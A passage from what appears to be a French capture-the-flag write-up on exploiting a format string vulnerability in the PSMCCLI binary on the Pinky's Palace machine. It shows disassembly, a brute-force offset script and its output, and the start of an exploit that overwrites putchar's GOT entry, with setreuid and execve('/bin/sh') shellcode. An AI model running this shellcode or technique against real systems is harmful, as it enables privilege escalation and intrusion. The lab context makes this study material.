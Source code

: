 ```nasm
0x080484bc      add     esp, 0x10
0x080484bf      sub     esp, 0xc
0x080484c2      push    dword [format] ; const char *format
0x080484c5      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x080484ca      add     esp, 0x10
0x080484cd      sub     esp, 0xc
0x080484d0      push    0xa        ; 10 ; int c
0x080484d2      call    putchar    ; sym.imp.putchar ; int putchar(int c)
0x080484d7      add     esp, 0x10
0x080484da      sub     esp, 0xc
0x080484dd      push    0          ; int status
0x080484df      call    exit       ; sym.imp.exit ; void exit(int status)
```

J'avais commencé à jouer un peu avec, par exemple avec ce script qui permet de voir à quel offset (position sur la pile) nos données sont reflétées :

```python
import subprocess

for offset in range(5000):
    try:
        output = subprocess.check_output(["/usr/local/bin/PSMCCLI", "AAAA%{}$.8x".format(offset)])
    except subprocess.CalledProcessError:
        continue
    else:
        if "4141" in output.decode():
            print("Got output {} with offset {}".format(output, offset))
```

On obtenait ainsi :

```console
pinksecmanagement@pinkys-palace:~$ python3 brute.py 
Got output b'[+] Args: AAAA41410049\n' with offset 133
Got output b'[+] Args: AAAA31254141\n' with offset 134
```

Mais au bout d'un moment, j'en ai eu marre et j'ai juste repris le code d'exploitation automatique que j'avais écrit pour [mon tutoriel sur l'exploitation des chaines de format]({% link _posts/2014-08-04-Pwing-echo-Exploitation-d-une-faille-de-chaine-de-format.md %}).

Il m'aura suffi de modifier les lignes gérant la façon dont le binaire affiche ses données et les lignes concernant la cible de l'écriture (ici on veut réécrire l'adresse de `putchar` dans la `GOT`) et c'était fini :

```python
import subprocess
import sys
import os
import struct

if len(sys.argv) < 2:
    print "Usage {0} <binary>".format(sys.argv[0])
    sys.exit()

TARGET = sys.argv[1]
if not (TARGET.startswith("./") or TARGET.startswith("/")):
    TARGET = "./" + TARGET

SHELLCODE = (
        # Does a setreuid(1000, 1000)
        "\x31\xC0\xB0\x46\x31\xDB\x66\xBB\xE8\x03\x89\xD9\xCD\x80"
        # execve(/bin/sh) I found on exploit-db
        "\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
)

```